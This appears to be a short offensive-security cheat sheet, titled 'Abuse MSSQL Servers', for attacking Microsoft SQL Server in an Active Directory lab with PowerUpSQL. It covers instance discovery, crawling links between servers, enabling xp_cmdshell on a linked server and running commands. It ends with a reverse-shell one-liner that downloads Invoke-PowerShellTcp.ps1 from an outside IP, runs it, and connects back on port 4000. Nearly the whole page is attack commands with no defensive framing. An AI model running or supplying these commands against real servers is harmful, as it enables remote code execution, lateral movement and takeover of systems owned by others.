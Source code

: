 # 🟢 Abuse MSSQL Servers

```
. .\PowerUpSQL.ps1
```

### **Discovery SPN scanning**

```
Get-SQLInstanceDomain
```

### **Check accessibility**

```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded – Verbose
```

### **Gather information**

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### **Search for links to remote servers**

```
Get-SQLServerLink -Instance <sql instance> -Verbose
```

### **Enumerate database links**

```
Get-SQLServerLinkCrawl -Instance <sql instance> -Verbose
```

### **Enable xp\_cmdshell**

```
Execute(‘sp_configure “xp_cmdshell”,1;reconfigure;’) AT “<sql instance>”
```

### **Execute commands**

```
Get-SQLServerLinkCrawl -Instance <sql instance> -Query "exec master..xp_cmdshell 'whoami'"
```

### **Execute reverse shell example**

{% code overflow="wrap" %}
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000'"
```
{% endcode %}
